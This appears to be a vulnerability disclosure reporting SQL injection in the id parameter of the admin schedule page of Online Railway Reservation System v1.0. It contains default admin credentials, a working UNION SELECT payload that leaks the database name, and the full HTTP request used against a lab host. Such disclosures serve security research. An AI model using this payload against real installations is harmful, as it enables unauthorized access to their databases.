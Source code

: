 # Online Railway Reservation System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html

Vulnerability File: /orrs/admin/schedules/manage_schedule.php?id

Vulnerability location: /orrs/admin/schedules/manage_schedule.php?id, id

Current database name: orrs_db,length is 7

[+] Payload:  /orrs/admin/schedules/manage_schedule.php?id=-1%27%20union%20select%201,2,3,database(),5,6,7,8,9,10,11,12,13--+ // Leak place ---> id
```sql
GET /orrs/admin/schedules/manage_schedule.php?id=-1%27%20union%20select%201,2,3,database(),5,6,7,8,9,10,11,12,13--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=hea24clorqs9kplqalqihp0ik4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/172335748-ac131c0d-25c8-4d58-929a-7154ce948f01.png)

![image](https://user-images.githubusercontent.com/54017627/172335500-90c41342-3de7-4f83-b582-7263d95bf406.png)
